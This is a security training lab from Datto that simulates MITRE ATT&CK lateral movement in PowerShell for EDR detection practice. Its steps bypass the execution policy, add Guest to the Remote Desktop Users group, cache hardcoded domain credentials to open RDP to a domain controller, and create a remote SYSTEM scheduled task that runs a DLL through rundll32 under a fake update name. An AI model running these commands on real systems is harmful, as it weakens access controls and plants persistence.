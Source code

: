 ```yaml
---
title: ATT&CK - Lateral Movement Phase
description: Simulate lateral movement techniques used by attackers within a network
author: Chris Gerritz, Datto
created: 04/17/2025
achievements:
duration: 15
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
External:
- attack.mitre.org
- allitshop.infocyte.com
---
```


## Description

The purpose of this lab is to simulate lateral movement techniques used by attackers to pivot between systems within a network. You will use PowerShell commands to simulate the creation of RDP connections and remote scheduled tasks on a target system. This lab emphasizes understanding how attackers move laterally and how these activities can be monitored or mitigated.

---

## Objectives
1. Understand the Lateral Movement phase of an attack.
2. Demonstrate techniques to establish remote connections and execute tasks on remote systems.
3. Evaluate the outputs and implications of lateral movement activities.

---

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows                     |
| **Applications** | PowerShell                  |
| **Needed Files** | None                        |

---

## Preparation Instructions

1. Open **PowerShell** as an administrator:
   - Right-click PowerShell.
   - Select "Run as Administrator."
2. Prepare the environment by running the following:
   ```PowerShell
   # Define a random delay number (used to randomize operations)
   $n = 1000 + $(Get-Random -Max 999)
   # Bypass signed script controls
   Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
   ```

---

## Instructions

### 1. Add Guest to Remote Desktop Users Group
> *This step simulates an attacker adding a Guest user to the Remote Desktop Users group to enable remote access.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   Write-Host -ForegroundColor Cyan "Initiating Lateral Movement - Adding Guest to Remote Desktop Users Group"
   net localgroup "Remote Desktop Users" Guest /add
   Write-Host -ForegroundColor Green "Guest successfully added to Remote Desktop Users group."
   ```

---

### 2. Establish Remote RDP Connection
> *This step simulates an attacker using stolen credentials to establish an RDP session with a target machine.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:

   ```PowerShell
   $cmd = @'
   cmdkey /generic:TERMSRV/CORP-DC01 /user:corp.local\adminuser /pass:P@ssw0rd123
   mstsc /v:CORP-DC01
   echo "RDP connection initiating......"
   '@
   
   $cmd += "`nStart-Sleep -Milliseconds $n"
   powershell.exe -NoProfile $cmd

   ```

---

### 3. Create a Remote Scheduled Task
> *Simulates an attacker creating a scheduled task on a remote machine to execute malicious code.*

- MITRE ATT&CK Technique: [T1053.005 - Scheduled Task: Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/005)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   Write-Host "Simulating Scheduled Task Creation on remote machine CORP-DC01..."

   & Powershell -NoProfile -NoLogo -ExecutionPolicy Bypass -command {
       cmd.exe  /c SCHTASKS  /s CORP-DC01 /RU "SYSTEM" /create /tn "WindowsUpdate0" /tr "rundll32 C:\ProgramData\good.dll,good" /sc ONCE /sd 01/01/1910 /st 00:00
   }
   ```



---
